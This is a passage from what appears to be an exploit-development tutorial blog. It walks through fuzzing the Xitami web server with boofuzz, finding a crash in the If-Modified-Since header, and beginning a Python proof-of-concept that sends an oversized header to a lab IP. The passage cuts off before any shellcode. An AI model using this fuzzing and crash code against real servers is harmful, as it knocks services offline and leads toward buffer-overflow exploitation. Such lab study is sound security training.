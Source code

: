 ```python
	s_delim(" ", name="space-11", fuzzable = False)
	s_string("max-age=0", name="Cache-Control-Value", fuzzable = False)
	s_delim("\r\n", name="return-10", fuzzable = False)
        s_static("\r\n", name="Request-Line-CRLF")
    s_static("\r\n", "Request-CRLF")

    session.connect(s_get("Request"))

    session.fuzz()


if __name__ == "__main__":
    main()
```

Comparing this output file to our `get.txt` file and everything looks the way it should! Notice that everything right now is set to `fuzzable = False` which means, as is, our `boofuzz` script will only send requests that match our `get.txt` file. We will have manually enable fuzzing for each parameter we want to fuzz. This is just a personal taste, if you don't like this approach, feel free to just delete instances of `fuzzable = False` in `boo-gen.py`. *Also change the IP address and port if necessary :)*

### Getting Fuzzy 

After spending quite a long time fuzzing the application, I was unable to get it to crash. Eventually I had to peek at the ExploitDB PoC script and determine how they were able to make the application crash. It turns out the `If-Modified-Since` parameter in our `boofuzz` script **is** vulnerable; however, it actually requires the parameter value to be prepended by a day and a space. So it needs to look like this: `If-Modified-Since: Wed, <fuzzing-payload>`. 

So we need to alter our `boofuzz` script slightly, in particular these few lines:
```python
s_string("If-Modified-Since: Sat,", name="If-Modified-Since", fuzzable = False)
s_delim(" ", name="space-10", fuzzable = False)
s_string("15 Jun 2019 01:36:09 GMT", name="If-Modified-Since-Value")
```

`"If-Modified-Since"` now has the day included along with a comma. This entity will not be fuzzed as it's set to `fuzzable = False`. The `"If-Modified-Since-Value"` entity has been shortened and we have deleted the fuzzable declaration so now it will be fuzzed. 

Sending this to our webserver nets us our crash!

![](/assets/images/CTP/xitamiSad.JPG)

So, lesson learned on that one. Fuzzing is not always just about smashing applications with data, we should be intelligently fuzzing applications. Looking at the [Mozilla.org Documentation for 'If-Modified-Since'](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since), it looks like the overflow occurs on the '<day>' value, possibly due to some conversion process on the server side. (Huge thanks to firzen and v0idptr for their insights on this!)
	
So now that we have our crash, let's replicate it:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

crash = "A" * 1000

req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
```